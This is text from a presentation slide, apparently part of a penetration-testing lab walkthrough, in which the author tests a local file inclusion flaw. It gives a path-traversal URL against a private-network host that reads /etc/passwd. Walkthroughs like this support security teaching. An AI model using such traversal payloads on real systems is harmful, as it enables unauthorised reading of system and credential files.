

SCANNING & VULNERABILITY ASSESSMENT
WE TRY THE LOCAL FILE INCLUSION (LFI) VULNERABILITY. LET’S TRY WITH THE PATH TRAVERSAL: 192.168.253.132/MANAGE.PHP?FILE=../../../../../../../ETC/PASSWD